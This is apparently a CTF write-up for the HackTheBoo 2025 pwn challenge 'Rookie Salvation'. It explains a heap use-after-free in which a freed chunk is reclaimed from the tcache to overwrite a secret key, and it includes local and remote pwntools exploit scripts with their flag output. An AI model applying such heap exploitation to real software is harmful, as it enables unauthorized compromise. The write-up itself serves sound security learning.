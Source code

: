 ```yaml
---
title: "HackTheBoo CTF 2025 | Pwn: Rookie Salvation [medium]"
date: 2025-10-27
summary: "HackTheBoo 2025 CTF Pwn — Rookie Salvation"
description: "Reclaiming a freed heap chunk via tcache to rewrite the secret key and unlock the salvation path for the flag."
tags:
  - HackTheBox
  - HackTheBoo 2025
  - Pwn
  - Heap Exploitation
  - x86_64
categories:
  - HackTheBoo 2025
  - Pwn
draft: false
---
```


Rook’s last stand against NEMEGHAST begins now. This is no longer a simulation—it’s the collapse of control. Legend speaks of only one entity who ever broke free from the Matrix: the original architect of NEMEGHAST. His name—buried, forbidden, encrypted—was the master key. If you can recover it… and inject it into the core... Rook will finally be free.

## Step 1: Explore the Challenge Files

```
ls
file rookie_salvation
cat README.txt
```

Findings:

- Only one ELF (`rookie_salvation`) plus flavor text.
- 64-bit dynamically linked PIE, NX and stack canary enabled, so a classic ret2win is unlikely.

## Step 2: Baseline Protections and UX

```
checksec --file=rookie_salvation
./rookie_salvation
```

`checksec` confirms **Full RELRO**, **Canary**, **NX**, **PIE**. Running the binary shows the three-option:

```
+-------------------+
| [1] Reserve space |
| [2] Obliterate    |
| [3] Escape        |
+-------------------+
```

Option 3 invokes the salvation check, so the vulnerability must involve options 1 and 2.

## Step 3: Static Reconnaissance

Enumerate symbols and dive into the interesting functions with radare2.

```
nm -C rookie_salvation
r2 -q -c 'aaa; e scr.color=false; s sym.reserve_space; pdf' rookie_salvation
r2 -q -c 'aaa; e scr.color=false; s sym.obliterate; pdf' rookie_salvation
r2 -q -c 'aaa; e scr.color=false; s sym.road_to_salvation; pdf' rookie_salvation
```

Key observations:

- `main` allocates a single heap chunk (`malloc(0x26)`) and stores its pointer in the global `allocated_space`. The bytes at `allocated_space + 0x1e` are initialized to the string `"deadbeef"`.
- **reserve_space**
  - Prompts for a size, `malloc`s that size, and lets us `scanf("%s")` directly into the new chunk.
  - Never updates the global `allocated_space`; it only stores the pointer in a local variable.
- **obliterate** calls `free(allocated_space)` without nulling the pointer.
- **road_to_salvation** compares `strcmp((char*)(allocated_space+0x1e), "w3th4nds")`. If it matches, the function opens `flag.txt`; otherwise loop back to menu.

This sets up a **dangling pointer**: after `obliterate`, the global pointer remains, but the chunk returns to the tcache and can be reclaimed via `reserve_space`.

## Step 4: Exploitation Strategy

1. **Obliterate** the original chunk so it enters the tcache bin for size 0x30.
2. **Reserve** a new chunk of a compatible size (decimal 40 in the menu suffices – glibc rounds to the same 0x30 size class).
3. Because the freed chunk is first in the tcache list, the new allocation reuses the exact same address still stored in `allocated_space`.
4. When we input data for the new chunk, we overwrite the bytes at offset `0x1e`, effectively rewriting the salvation key that `road_to_salvation` will later verify.
5. Trigger option 3 to read the flag.


## Step 5: Local Proof of Concept

Use pwntools to script the menu sequence and confirm that replacing the secret with `w3th4nds` prints the local fake flag.

```
from pwn import *
context.log_level = 'debug'
elf = ELF('./rookie_salvation', checksec=False)

io = process(elf.path)
io.recvuntil(b'> ')
io.sendline(b'2')
io.recvuntil(b'> ')
io.sendline(b'1')
io.recvuntil(b': ')
io.sendline(b'40')
io.recvuntil(b': ')
io.sendline(b'A'*30 + b'w3th4nds')
io.recvuntil(b'> ')
io.sendline(b'3')
print(io.recvrepeat(1).decode())
io.close()
```

Output:

```
[Unknown Voice] ✨ 𝐅𝐢𝐧𝐚𝐥𝐥𝐲.. 𝐓𝐡𝐞 𝐰𝐚𝐲.. 𝐎𝐮𝐭..HHTB{f4k3_fl4g_4_t35t1ng}
```

The local binary with a dummy flag, confirming that the logic works.

## Step 6: Exploit


```
from pwn import *

context.binary = ELF("./rookie_salvation", checksec=False)
context.log_level = "info"

HOST = "209.38.254.18"
PORT = 31337


def forge_key(io):
    io.sendlineafter(b"> ", b"2")
    io.sendlineafter(b"> ", b"1")
    io.sendlineafter(b": ", b"40")
    payload = b"A" * 0x1E + b"w3th4nds"
    io.sendlineafter(b": ", payload)
    io.sendlineafter(b"> ", b"3")
    io.recvuntil(b"HTB{")
    flag = b"HTB{" + io.recvuntil(b"}")
    log.success(flag.decode())


def main():
    io = remote(HOST, PORT)
    forge_key(io)


if __name__ == "__main__":
    main()
```


Run the script 

```
python3 exploit.py
```


```
[+] Opening connection to 209.38.254.18 on port 31337: Done
[+] HTB{h34p_2_h34v3n}
[*] Closed connection to 209.38.254.18 port 31337
```

